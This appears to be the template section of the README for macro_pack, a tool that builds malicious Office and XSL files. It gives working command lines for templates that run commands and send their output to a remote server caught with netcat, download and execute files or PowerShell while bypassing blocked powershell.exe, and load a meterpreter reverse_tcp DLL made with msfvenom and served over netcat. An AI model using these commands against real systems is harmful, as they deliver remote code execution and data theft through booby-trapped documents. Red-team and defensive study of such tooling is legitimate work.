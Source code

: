 

## Template usage
  
Templates can be called using  -t, --template=TEMPLATE_NAME combined with other options.  
Here are all the available templates.

            
### HELLO  
Just print a hello message and awareness about macro  
Give this template the name or email of the author   
  -> Example: ```echo "@Author" | macro_pack.exe -t HELLO -G hello.pptm```

### CMD
Execute a command 
Give this template a command line
  -> Example (pop calc.exe from and xslt file):  ```echo "calc.exe" | macro_pack.exe -t CMD -G cmd.xsl```
  
### REMOTE_CMD
Execute a command line and send result to remote http server  
Give this template the server url and the command to run  
  -> Example:  ```echo "http://192.168.0.5:7777" "dir /Q C:" | macro_pack.exe -t REMOTE_CMD -o -G cmd.doc``` 
   
```bash
# Catch result with any webserver or netcat
nc -l -p 7777
```
            
### DROPPER
Download and execute a file.  
Give this template the file url and the target file path  
  -> Example:  ```echo <file_to_drop_url> "<download_path>" | macro_pack.exe -t DROPPER -o -G dropper.xls```
   
        
### DROPPER_PS
Download and execute Powershell script using rundll32 (to bypass blocked powershell.exe).  
Note: This payload will download PowerShdll from Github.  
Give this template the url of the powershell script you want to run  
  -> Example:  ```echo "<powershell_script_url>" | macro_pack.exe -t DROPPER_PS -o -G powpow.doc```
 
 
### DROPPER_DLL
Download a DLL with another extension and run it using Office VBA  
  -> Example, load meterpreter DLL using Office:  
```batch
REM Generate meterpreter dll payload
msfvenom.bat  -p windows/meterpreter/reverse_tcp LHOST=192.168.0.5 -f dll -o meter.dll
REM Make it available on webserver, ex using netcat on port 6666
{ echo -ne "HTTP/1.0 200 OK\r\n\r\n"; cat meter.dll; } | nc -l -p 6666 -q1
REM Create OFfice file which will download DLL and call it
REM The DLL URL is http://192.168.0.5:6666/normal.html and it will be saved as .asd file
echo "http://192.168.0.5:6666/normal.html" Run | macro_pack.exe -t DROPPER_DLL -o -G meterdll.xls
```
        